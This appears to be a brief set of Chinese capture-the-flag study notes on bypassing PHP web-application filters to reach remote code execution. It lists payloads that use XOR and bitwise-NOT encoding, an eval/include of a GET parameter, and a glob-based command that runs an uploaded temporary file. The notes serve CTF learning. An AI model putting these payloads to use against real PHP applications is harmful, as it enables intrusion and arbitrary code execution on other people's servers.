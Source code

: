 tags:: CTF/RCE, CTF/PHP/WAF绕过

- `'`
	- `"`
- `base_convert`
	- `chr` 拼接
- 空格和括号
	- `eval('include$_GET[url]?>');`
- hex
	- php的`"`支持转义: `"\x61"`
- 和，或，非等二进制操作
	- 异或
	- `((%fe%fe%fe%fe%fe%fe%fe)^(%8e%96%8e%97%90%98%91))();`
	- 取反
	- `${~'%99%93%9E%98'} # $flag`
- `$$`
	- ```php
	  $a = "b"
	  $b = "asd"
	  echo($$a) // 输出asd
	  ```
- glob
	- ```
	  `?><?=`. /???/????????[@-[]`?>`	
	  ```
	- 需要配合文件上传,具体见[[CTF/PHP/无字母数字RCE]]
#### 从其他地方读取
	- 其他未被过滤的参数(GET 或者 POST)
	- session_id()
	- cookie
	- log
- [[CTF/PHP/无字母数字RCE]]